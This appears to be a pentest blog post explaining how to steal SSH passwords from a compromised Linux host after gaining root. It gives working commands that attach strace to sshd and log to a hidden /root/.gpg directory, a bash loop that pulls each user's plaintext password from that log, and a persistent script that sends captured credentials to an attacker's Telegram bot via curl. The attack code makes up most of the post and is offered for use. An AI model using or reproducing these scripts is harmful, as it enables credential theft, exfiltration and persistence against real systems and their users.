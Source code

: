 ```yaml
---
layout: post
title: Stealing SSH credentials.
description: Some times during a pentest you get a root access to a linux workstation or a server, but you don't have the root password, so what to do to get it?
keywords: ssh, pwning, bash, G4mbl3r
disqus: true
tags: [SSH]
categories: Persistence
---
```

#### Ok I became root what can I do now?.
Sometimes when you get root access to a server or a workstation, you don't really have the root password, sometimes you just exploit the server, and got id 0, what can I do in this case?

Well I know two ways to do this, recompile ssh with some extra code, or monitor sshd proccess and get the password on the fly, this time I'll talk about the second option.

There is a linux tool called strace, it's a debbuger, where you can attach running proccess to (WAIT FOR IT) debug it, so basically, what I'm going to do is monitor the sshd proccess.

{% highlight bash %}
strace -f -p $(pgrep -f "/usr/sbin/sshd") -s 128 -o /root/.gpg/auth.log
{% endhighlight %}

Let's undestand what it's doing,
strace : Debbuger
-f : Option to monitor child proccess
-p : Option to set the sshd proccess pid
-s : limit the string size to 128 the default is 32
-o : set the output file (REALLY IMPORTANT)

so just to test start the strace log on your linux over ssh, stop strace and do a grep for your password on the output file and it'll be there.

But it's not enought, we need to parse the file to get the user that owns this password, and get if the login was successful, to do that I wrote a bash script to get the password of every user with a shell.
{% highlight bash %}
for user in $(grep -vE 'nologin|false' /etc/passwd | cut -d ":" -f 1);do
  PASSWORD=$(grep -B 40 -E "authentication.*$user" .gpg/auth.log | grep "read(6" | grep -v unfinished | cut -d '"' -f 2 | sed 's/\\.//g')
  if [  "$PASSWORD" ];then
    echo "USER: $user"
    echo $NEWPASS
  fi
done
{% endhighlight %}

OUTPUT:
{% highlight bash %}
USER: gambler
5umasenhamuitoforteaqui!!!
{% endhighlight %}


BUT WAIT...

It's not a perfect method, it's functional but no perfect, as you can se on my grep, a search for some infos, that may change from one distro to another, so if you want to use it on your pentest's, be prepared to write your own greps, also, the sshd receives some nullbytes with the password, where I remove with the sed, but the next byte after the nullbytes is the size of the password, so how I'm totally laze I don't expend too much time trying to clean this info, then some times the password came with an extra character on begin, just like in the output above, there is the character 5 on the begining of the password.

Just to help all the tests were made on a Debian 9 with openssh-server 7.4p1-10+deb9u2.

And just to complete, here is a example of how get notified when you capture a password,

{% highlight bash %}
#!/bin/bash

API="YOUR BOT API GOES HERE"
USERID="YOUR TELEGRAM NUMERIC ID GOES HERE"
PATHLOG="/root/.gpg"
LOGFILE="$PATHLOG/auth.log"
LASTPASS=""
NEWPASS=""
MIDDLEWARE=""

function install(){
  if ! command -v strace || ! command -v curl;then
    if command -v apt-get &> /dev/null ;then
      apt-get install strace curl
    elif command -v yum &>/dev/null ;then
      yum install strace curl
    fi
  fi
}

function sendMessage(){
  if [[ "$MIDDLEWARE" != "$LASTPASS"  ]];then
    MESSAGE="$MIDDLEWARE"
    curl --silent "https://api.telegram.org/bot$API/sendMessage?chat_id=$USERID&text=$MESSAGE" >> /dev/null
    LASTPASS="$MIDDLEWARE"
  fi
}

function debian(){
  for user in $(grep -vE 'nologin|false' /etc/passwd | cut -d ":" -f 1);do
    NEWPASS=$(grep -E "authentication.*acct=..$user" .gpg/auth.log -B 50 | grep "write(4" | grep unfinished | cut -d '"' -f 2 | sed 's/\\.//g')
    if [ ! -z "$NEWPASS" ];then
	    NEWPASS="USER: $user PASSWD: $(echo $NEWPASS | tr '\n' ' ')"
      MIDDLEWARE="$MIDDLEWARE $NEWPASS"
    fi
  done
  echo "$MIDDLEWARE"
}

function main(){
  debian
  sendMessage
  MIDDLEWARE=""
  sleep 1
}
while true;do
main
done
{% endhighlight %}

This bash script send a message to you on telegram when it's identify a new password.
